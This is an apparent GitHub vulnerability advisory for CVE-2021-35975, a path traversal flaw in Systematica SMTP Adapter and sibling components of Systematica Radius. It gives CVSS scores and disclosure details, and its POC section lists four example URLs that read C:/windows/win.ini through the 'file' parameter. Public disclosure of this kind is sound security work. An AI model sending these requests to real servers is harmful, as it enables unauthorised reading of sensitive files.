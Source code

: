 # CVE-2021-35975

Systematica SMTP Adapter versions prior to v2.0.1.101 are vulnerable to directory traversal, which may allow an attacker to read sensitive files.

CVSS v2: (AV:N/AC:L/Au:N/C:P/I:N/A:N)

CVSS v2 Score (BS): 5

CVSS v3: (AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N)

CVSS v3 Score (BS): 5.0


# Information

<b>Description:</b> Absolute path traversal vulnerability in the Systematica SMTP Adapter component (up to v2.0.1.101) in Systematica Radius (up to v.3.9.256.777) allows remote attackers to read arbitrary files via a full pathname in GET parameter "file" in URL. 

Also: affected components in same product - HTTP Adapter (up to v.1.8.0.15), MMSQL MessageBus Proxy (up to v.1.1.06), Financial Calculator (up to v.1.3.05)

<b>Class:</b> Design Error 

<b>Researcher:</b> Vadim Golovanov (https://github.com/trump88/)

<b>Issue date:</b> 2021-05-29 (Initial Advisory)

<b>Public release:</b> 2021-06-30

<b>Disclosure Link:</b>

<b>NIST CVE Link:</b>

<b>CWE:</b> 22 or 36 - Absolute Path Traversal

# POC

<b>An example of vector:<b/>
  
SMTP adapter              http://SERVER:8804/info?page=logfile&file=C:/windows/win.ini
  
HTTP adapter              http://SERVER:8848/info?page=logfile&file=C:/windows/win.ini
  
MSSQL MessageBus Proxy    http://SERVER:8890/info?page=logfile&file=C:/windows/win.ini
  
Financial Calculator      http://SERVER:8891/info?page=logfile&file=C:/windows/win.ini
  
 
  
# Screenshots:
  
![](CVE_2021_35975_1.png)

![](CVE_2021_35975_2.png)
